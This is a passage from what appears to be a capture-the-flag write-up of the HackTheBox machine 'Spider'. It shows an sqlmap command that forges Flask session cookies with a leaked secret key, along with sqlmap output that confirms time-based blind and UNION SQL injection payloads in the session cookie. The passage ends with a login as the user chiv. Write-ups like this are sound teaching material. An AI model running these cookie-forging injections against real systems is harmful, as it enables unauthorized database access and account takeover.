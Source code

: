 

    sqlmap http://1.1.1.1/sqli --eval "from flask_unsign import session as s; session = s.sign({'uid': session}, secret='SecretExfilratedFromTheMachine')" --cookie="session=*" --dump



I'll update that for Spider:



    oxdf@parrot$ sqlmap http://spider.htb/ --eval "from flask_unsign import session as s; session = s.sign({'uuid': sess
    ion}, secret='Sup3rUnpredictableK3yPleas3Leav3mdanfe12332942')" --cookie="session=*" 
    ...[snip]...
    custom injection marker ('*') found in option '--headers/--user-agent/--referer/--cookie'. Do you want to process it? [Y/n/q] Y
    ...[snip]...
    [12:16:17] [INFO] testing if the target URL content is stable
    you provided a HTTP Cookie header value, while target URL provides its own cookies within HTTP Set-Cookie header which intersect with yours. Do you wa
    nt to merge them in further requests? [Y/n] n
    ...[snip]...
    (custom) HEADER parameter 'Cookie #1*' is vulnerable. Do you want to keep testing the others (if any)? [y/N] 
    sqlmap identified the following injection point(s) with a total of 74 HTTP(s) requests:
    ---
    Parameter: Cookie #1* ((custom) HEADER)
        Type: time-based blind
        Title: MySQL >= 5.0.12 AND time-based blind (query SLEEP)
        Payload: session=' AND (SELECT 7466 FROM (SELECT(SLEEP(5)))vsxk) AND 'ziEz'='ziEz

        Type: UNION query
        Title: Generic UNION query (NULL) - 2 columns
        Payload: session=' UNION ALL SELECT CONCAT(0x7170627071,0x57476d444976695a4a78634c4f4348534e50564972517374416f43536c72794e4a4867516b74534c,0x7162707071)-- -
    ---
    ...[snip]...



I had first tried this with `--batch` to just accept the default answers
to any questions, but it is important to look at the questions `sqlmap`
is asking. The second one is "the site is trying to set a cookie, do you
want to use that \[instead of the one you set with `--eval`\]?". It's
important to say no to that.

The result is that it's able to exploit the SQLi directly, without the
proxy.

#### Login

Regardless of how I got it, I now have a UUID and password, allowing me
to login as chiv and access `/main`:

![](/img/image-20210517142221286.png)
